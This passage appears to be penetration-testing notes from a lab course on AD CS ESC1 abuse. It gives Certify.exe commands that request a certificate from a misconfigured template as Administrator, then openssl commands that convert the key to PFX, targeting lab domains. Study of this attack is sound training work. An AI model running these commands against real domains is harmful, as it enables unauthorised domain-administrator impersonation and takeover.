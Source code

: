 <img src="./assets/9.png" />

### 2. Enroll in the template 
```powershell
# Certify
Certify.exe request /cs:dc.theshire.local\theshire-DC-CA /template:ESC1Template /altname:Administrator

# CRTE Lab
C:\AD\Tools\Certify.exe request /ca:Techcorp-DC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator
```

<img src="./assets/10.png" />

### 3. Change the RSA into a PFX
> Paste the Private key in a file named : *cert.pem*
```bash
# linux
# openssl and provide a password
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
```powershell
# windows
# openssl and provide a password
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem - keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\DA.pfx
```
